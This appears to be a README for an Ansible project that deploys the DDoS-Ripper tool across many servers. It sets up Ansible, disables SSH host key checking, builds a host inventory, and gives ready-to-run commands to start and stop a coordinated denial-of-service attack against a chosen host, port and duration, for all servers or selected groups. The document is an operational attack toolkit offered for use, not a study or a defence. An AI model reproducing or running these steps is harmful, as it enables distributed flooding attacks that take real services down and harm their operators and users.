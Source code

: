 **Usage:**

#1. Install python3 and Ansible*
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

#2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:
- add your hosts as follow:
```
[all]
#Add hosts to this group
host1      ansible_host=127.0.0.1
host2      ansible_host=127.0.0.2


[all:vars]
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper


[group1]
host1

[group2]
host2
```

#3. Run playbook and start/stop attack:

##You must have the same username and password or ssh key for each server**

##If you use username and password for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration> -l group1,group2"
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

##If you use ssh key for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key"
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration> -l group1,group2"
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

